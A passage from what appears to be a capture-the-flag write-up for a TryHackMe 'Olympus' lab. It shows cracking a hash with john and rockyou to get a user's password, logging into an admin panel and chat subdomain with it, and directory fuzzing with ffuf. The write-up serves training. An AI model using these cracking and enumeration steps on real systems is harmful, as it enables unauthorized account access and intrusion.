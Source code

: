 ```
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
summertime       (prometheus)
```

We got credentials for `prometheus`, let's go inside the admin panel:


![](cybersecurity/images/Pasted%2520image%252020250501135943.png)


If we recall the `sqlmap` output, we can see the following emails:

```
root@chat.olympus.thm
zeus@chat.olympus.thm
```

This means there could be a `chat.olympus.thm` subdomain, let's add it and check it:

![](cybersecurity/images/Pasted%2520image%252020250501140604.png)

We can go with our found credentials:

![](cybersecurity/images/Pasted%2520image%252020250501140629.png)

Since there needs to be an `uploads` directory, we need to fuzz to check if it was changed to another name:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://chat.olympus.thm/FUZZ" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://chat.olympus.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

static                  [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 204ms]
javascript              [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 191ms]
uploads                 [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 182ms]
```
